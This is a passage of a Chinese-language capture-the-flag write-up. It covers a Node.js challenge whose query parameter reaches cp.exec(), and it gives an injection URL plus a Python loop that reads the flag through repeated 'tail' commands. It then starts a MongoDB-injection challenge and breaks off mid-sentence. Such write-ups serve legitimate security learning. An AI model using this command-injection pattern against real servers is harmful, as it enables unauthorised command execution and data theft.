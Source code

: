 ```javascript
  } else {
    res.end('HEY MY SWEET!!! I LOVE YOOOOOOOO!!!');
  }

});

function secure (str) {
  return str.replace(/[^\d\-a-zA-Z ]/g, '');
}

module.exports = router;
```

可以发现这里有个很明显的命令执行：

```javascript
cp.exec()
```

可直接cat数据：

    http://121.40.86.166:39339/ac6555bfe23f5fe7e98fdcc0cd5f2451/?pangci=cat

但是程序默认只返回命令执行结果的5行，因此写个程序来循环读取flag（通过测试flag有143行）：

```python
#!/usr/bin/env python
# coding: utf-8

import requests

outfile = open('flag.txt', 'w')
r_url = 'http://121.40.86.166:39339/ac6555bfe23f5fe7e98fdcc0cd5f2451/?pangci='
n = 143
r = n / 5 + 1
for i in range(r):
    response = requests.get(r_url + 'tail -n %s' % str(n))
    #print r_url + 'tail -n %s' % str(n)
    m = response.content
    outfile.write(m + '\n')
    n -= 5
```

flag：`hctf{Ar3_you_an_op3nsourc3_1ov3r?}`

## LOCK（300pt）

题目是个登陆框，且注释里有tips：

    <!-- wtf!! The key is the same as lock !! Can someone help to find the right lock ?!!!-->

随即登陆，得到返回信息：

    It seeeeeeemed the lock is not right!!!(╯°□°）╯︵ ┻━┻

后排出普通sql注入，发现服务器上有开放27017（mongodb端口），因此开始mongodb注入尝试，通过post数据：
